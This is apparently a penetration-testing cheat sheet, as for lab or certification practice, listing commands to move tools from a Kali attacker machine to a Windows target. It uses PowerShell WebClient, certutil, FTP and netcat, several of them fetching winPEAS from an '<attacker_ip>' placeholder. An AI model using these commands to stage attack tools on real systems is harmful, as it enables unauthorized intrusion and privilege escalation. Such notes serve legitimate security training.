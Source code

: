 # File transfer 


```powershell
[Kali] python3 -m http.server 8888
[Windows] powershell -c "(New-Object System.Net.WebClient).DownloadFile(\"http://<attacker_ip>:8888/winPEASany.exe\", \"winpeas.exe\")" 
```

```powershell
[Kali] python3 -m http.server 8888
[Windows] certutil -urlcache -split -f "http://<attacker_ip>:8888/winPEASany.exe" winpeas.exe
```

```powershell
[Kali] python -m pyftpdlib -p 21  
[Windows] ftp -A <attacker_ip>   
binary    
get winPEAS.exe   
bye 
```

```powershell
[Windows] nc -nlvp 4444 > incoming.exe
[Kali] nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe 
```
